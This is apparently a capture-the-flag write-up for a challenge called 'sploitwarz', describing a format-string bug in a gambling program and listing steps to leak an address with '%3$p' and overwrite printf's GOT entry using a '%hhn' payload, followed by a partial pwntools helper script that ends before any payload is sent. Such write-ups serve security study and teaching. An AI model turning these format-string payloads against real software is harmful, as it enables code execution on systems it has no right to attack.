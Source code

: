 ==============================================
==============================================

sploitwarz
===========================

General overview of problems faced
-------------------------------------
- Was writing the address in the wrong order
- learned about %hhn to overwrite 1 byte at a time without overflow

List of vulnerabilities
--------------------
1. The name buffer is used in a printf without formating after doing a successfull gamble

Steps to exploit the format string
------------------
1. Set your name to "%3$p"
2. Gamble and win. The odd one out is the non-fibonnaci number
3. Save the printed address and add 14172 to find the printf address in the got table. Remove -2883 to find the win function address
4. Set your name to : printf_address + (printf_address + 1) + (printf_address + 2) + (printf_address + 3) + '%76c%9$hhn%9c%10$hhn%240c%11$hhn%1c%12$hhn'
5. Gamble and win.

Script/Command used
------------------
``` python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

def get_fib_sequence():
    prev = 0
    curr = 1
    ret = [prev, curr]
    for i in range(1,25):
        temp = curr
        curr = prev+curr
        prev = temp
        ret += [curr]
    return ret

def get_wrong(l):
    fibs = get_fib_sequence()
    for i, dig in enumerate(l):
        if int(dig) not in fibs:
            return i
    return 0

def do_change_name(r, new_name):
    r.sendline('c')
    r.sendline(new_name)

def do_gamble(r):
    r.sendline('g')
    r.sendline('0.0000000001')
    r.recvuntil('Pick the odd one out:')
    resp = r.recvrepeat(0.2)
    resp = resp.split('\n')
    resp = [a[3:] for a in resp if a[3:]]

    print resp, get_wrong(resp)

```